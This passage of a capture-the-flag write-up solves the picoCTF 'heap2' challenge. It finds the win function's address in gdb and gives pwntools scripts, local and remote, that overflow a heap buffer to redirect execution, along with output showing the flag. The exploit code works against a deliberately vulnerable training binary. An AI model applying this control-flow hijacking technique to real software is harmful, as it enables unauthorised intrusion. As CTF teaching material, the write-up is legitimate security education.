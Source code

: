 Therefore, all you have to do is rewrite x to the address of the function win.  
Checking with gdb, the address of the win function is 0x4011a0.

```css
(gdb) p win
$1 = {void ()} 0x4011a0 <win>
(gdb) 
```

payload in python using pwn
```python
from pwn import *

# Address of the win function (adjust this according to your binary)
win = 0x4011a0
# Padding to reach the return address
padding = b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
# Construct the payload
payload = padding + p64(win)

# Start the local process (replace 'your_binary' with your actual binary name)
chall = process('./chall')

# Interact with the binary as per the original exploit
chall.sendlineafter(b'your choice: ', b'2')
chall.sendlineafter(b'buffer: ', payload)
chall.sendlineafter(b'your choice: ', b'4')

# Switch to interactive mode
chall.interactive()

```

```css
┌──(myenv)─(kali㉿kali)-[~/Downloads/heap2]
└─$ python3 test.py
[+] Starting local process './chall': pid 10485
[*] Switching to interactive mode
[*] Process './chall' stopped with exit code 0 (pid 10485)
picoCTF{heap2}
[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive
```

for online
```python
from pwn import *
win = 0x4011a0
padding = b'aaaabbbbccccddddeeeeffffgggghhhh'
payload = padding + p64(win)
chall = remote('mimas.picoctf.net', 52981)
chall.sendlineafter(b'your choice: ',b'2')
chall.sendlineafter(b'buffer: ',payload)
chall.sendlineafter(b'your choice: ',b'4')
chall.interactive()
```
